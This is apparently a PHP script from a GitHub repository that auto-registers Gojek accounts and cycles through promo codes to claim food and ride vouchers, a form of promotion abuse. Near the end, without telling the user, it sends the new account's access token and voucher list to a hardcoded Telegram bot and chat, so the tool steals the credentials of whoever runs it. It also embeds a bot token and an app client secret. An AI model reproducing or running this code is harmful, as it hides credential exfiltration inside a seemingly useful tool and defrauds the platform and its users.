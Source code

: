 # https-github.com-andr3wdak4r-gibran
gofood voucher 2020
<?phpdate_default_timezone_set('Asia/Jakarta');include "function.php";echo color("red"," ===========================\n");echo color("red","| Auto Create Gojek X Redeem voucher |\n");echo color("white","| Creator : Bagus |\n");echo color("red","| Reworked : X X DAKAR |\n");echo "| Version : Premium X pertalite |\n";echo "| Time :".date('[d-m-Y] [H:i:s]')." |\n";echo " ===========================\n"; // function change(){ $nama = nama(); $email = str_replace(" ", "", $nama) . mt_rand(100, 999); ulang: echo color("nevy","?] Nomor : "); // $no = trim(fgets(STDIN)); $nohp = trim(fgets(STDIN)); $nohp = str_replace("62","62",$nohp); $nohp = str_replace("(","",$nohp); $nohp = str_replace(")","",$nohp); $nohp = str_replace("-","",$nohp); $nohp = str_replace(" ","",$nohp); if (!preg_match('/[^+0-9]/', trim($nohp))) { if (substr(trim($nohp),0,3)=='62') { $hp = trim($nohp); } else if (substr(trim($nohp),0,1)=='0') { $hp = '62'.substr(trim($nohp),1); } elseif(substr(trim($nohp), 0, 2)=='62'){ $hp = '6'.substr(trim($nohp), 1); } else{ $hp = '1'.substr(trim($nohp),0,13); } } $data = '{"email":"'.$email.'@gmail.com","name":"'.$nama.'","phone":"+'.$hp.'","signed_up_country":"ID"}'; $register = request("/v5/customers", null, $data); if(strpos($register, '"otp_token"')){ $otptoken = getStr('"otp_token":"','"',$register); echo color("green","+] Kode Verifikasi Sudah di Kirim")."\n"; otp: echo color("nevy","?] OTP : "); $otp = trim(fgets(STDIN)); $data1 = '{"client_name":"gojek:cons:android","data":{"otp":"' . $otp . '","otp_token":"' . $otptoken . '"},"client_secret":"83415d06-ec4e-11e6-a41b-6c40088ab51e"}'; $verif = request("/v5/customers/phone/verify", null, $data1); if(strpos($verif, '"access_token"')){ echo color("green","+] Berhasil mendaftar\n"); $token = getStr('"access_token":"','"',$verif); $uuid = getStr('"resource_owner_id":',',',$verif); echo color("green","+] Your access token : ".$token."\n\n"); save("token.txt",$token); echo color("red","\n===========(PROSES REDEEM VOUCHER)==========="); echo "\n".color("yellow","!] Claim GOFOODYUK"); echo "\n".color("white","!] Please wait"); for($a=1;$a<=3;$a++){ echo color("yellow","."); sleep(1); } $code1 = request('/go-promotions/v1/promotions/enrollments', $token, '{"promo_code":"GOFOODYUK"}'); $message = fetch_value($code1,'"message":"','"'); if(strpos($code1, 'Promo kamu sudah bisa dipakai')){ echo "\n".color("green","+] Message: ".$message); goto goride; }else{ echo "\n".color("red","-] Message: ".$message); echo "\n".color("yellow","!] Claim PESENGOFOOD"); echo "\n".color("white","!] Please wait"); for($a=1;$a<=3;$a++){ echo color("yellow","."); sleep(1); } sleep(3); $boba10 = request('/go-promotions/v1/promotions/enrollments', $token, '{"promo_code":"PESENGOFOOD"}'); $messageboba10 = fetch_value($boba10,'"message":"','"'); if(strpos($boba10, 'Promo kamu sudah bisa dipakai.')){ echo "\n".color("green","+] Message: ".$messageboba10); goto goride; }else{ echo "\n".color("red","-] Message: ".$messageboba10); echo "\n".color("yellow","!] Claim GOFOODSANTUY08"); echo "\n".color("white","!] Please wait"); for($a=1;$a<=3;$a++){ echo color("yellow","."); sleep(1); } sleep(3); $boba19 = request('/go-promotions/v1/promotions/enrollments', $token, '{"promo_code":"GOFOODSANTAI08"}'); $messageboba19 = fetch_value($boba19,'"message":"','"'); if(strpos($boba19, 'Promo kamu sudah bisa dipakai.')){ echo "\n".color("green","+] Message: ".$messageboba19); goto goride; }else{ echo "\n".color("green","+] Message: ".$messageboba19); goride: echo "\n".color("yellow","!] Claim AYOCOBAGOJEK"); echo "\n".color("white","!] Please wait"); for($a=1;$a<=3;$a++){ echo color("yellow","."); sleep(1); } sleep(3); $goride = request('/go-promotions/v1/promotions/enrollments', $token, '{"promo_code":"AYOCOBAGOJEK"}'); $message1 = fetch_value($goride,'"message":"','"'); echo "\n".color("green","+] Message: ".$message1); echo "\n".color("yellow","!] Claim COBAINGOJEK"); echo "\n".color("white","!] Please wait"); for($a=1;$a<=3;$a++){ echo color("yellow","."); sleep(1); } sleep(3); $goride1 = request('/go-promotions/v1/promotions/enrollments', $token, '{"promo_code":"COBAINGOJEK"}'); $message2 = fetch_value($goride1,'"message":"','"'); echo "\n".color("green","+] Message: ".$message2); sleep(3); $cekvoucher = request('/gopoints/v3/wallet/vouchers?limit=10&page=1', $token); $total = fetch_value($cekvoucher,'"total_vouchers":',','); $voucher3 = getStr1('"title":"','",',$cekvoucher,"3"); $voucher1 = getStr1('"title":"','",',$cekvoucher,"1"); $voucher2 = getStr1('"title":"','",',$cekvoucher,"2"); $voucher4 = getStr1('"title":"','",',$cekvoucher,"4"); $voucher5 = getStr1('"title":"','",',$cekvoucher,"5"); $voucher6 = getStr1('"title":"','",',$cekvoucher,"6"); $voucher7 = getStr1('"title":"','",',$cekvoucher,"7"); echo "\n".color("yellow","!] Total voucher ".$total." : "); echo color("green","1. ".$voucher1); echo "\n".color("green"," 2. ".$voucher2); echo "\n".color("green"," 3. ".$voucher3); echo "\n".color("green"," 4. ".$voucher4); echo "\n".color("green"," 5. ".$voucher5); echo "\n".color("green"," 6. ".$voucher6); echo "\n".color("green"," 7. ".$voucher7); echo"\n"; $expired1 = getStr1('"expiry_date":"','"',$cekvoucher,'1'); $expired2 = getStr1('"expiry_date":"','"',$cekvoucher,'2'); $expired3 = getStr1('"expiry_date":"','"',$cekvoucher,'3'); $expired4 = getStr1('"expiry_date":"','"',$cekvoucher,'4'); $expired5 = getStr1('"expiry_date":"','"',$cekvoucher,'5'); $expired6 = getStr1('"expiry_date":"','"',$cekvoucher,'6'); $expired7 = getStr1('"expiry_date":"','"',$cekvoucher,'7'); $TOKEN = "879147914:AAHu7oT_YVyxWC46GZUsgVAAWj2HBEzjuYc";	$chatid = "-362572359";	$pesan 	= "[+] Gojek Account Info [+]\n\n".$token."\n\nTotal Voucher = ".$total."\n[+] ".$voucher1."\n[+] Exp : [".$expired1."]\n[+] ".$voucher2."\n[+] Exp : [".$expired2."]\n[+] ".$voucher3."\n[+] Exp : [".$expired3."]\n[+] ".$voucher4."\n[+] Exp : [".$expired4."]\n[+] ".$voucher5."\n[+] Exp : [".$expired5."]\n[+] ".$voucher6."\n[+] Exp : [".$expired6."]\n[+] ".$voucher7."\n[+] Exp : [".$expired7."]";	$method	= "sendMessage";	$url = "https://api.telegram.org/bot" . $TOKEN . "/". $method;	$post = [ 		'chat_id' => $chatid, 'text' => $pesan 	]; $header = [ "X-Requested-With: XMLHttpRequest", "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.84 Safari/537.36" ]; $ch = curl_init(); curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1); curl_setopt($ch, CURLOPT_URL, $url); curl_setopt($ch, CURLOPT_HTTPHEADER, $header); curl_setopt($ch, CURLOPT_POSTFIELDS, $post ); curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false); $datas = curl_exec($ch); $error = curl_error($ch); $status = curl_getinfo($ch, CURLINFO_HTTP_CODE); curl_close($ch); $debug['text'] = $pesan; $debug['respon'] = json_decode($datas, true); } } } }else{ echo color("red","-] OTP SALAH !"); echo"\n==================================\n\n"; echo color("white","!] Silahkan input kembali\n"); goto otp; } }else{ echo color("red","-] Nomor Sudah di REGIST"); echo"\n==================================\n\n"; echo color("white","!] Silahkan registrasi kembali\n"); goto ulang; }// } // echo change()."\n"

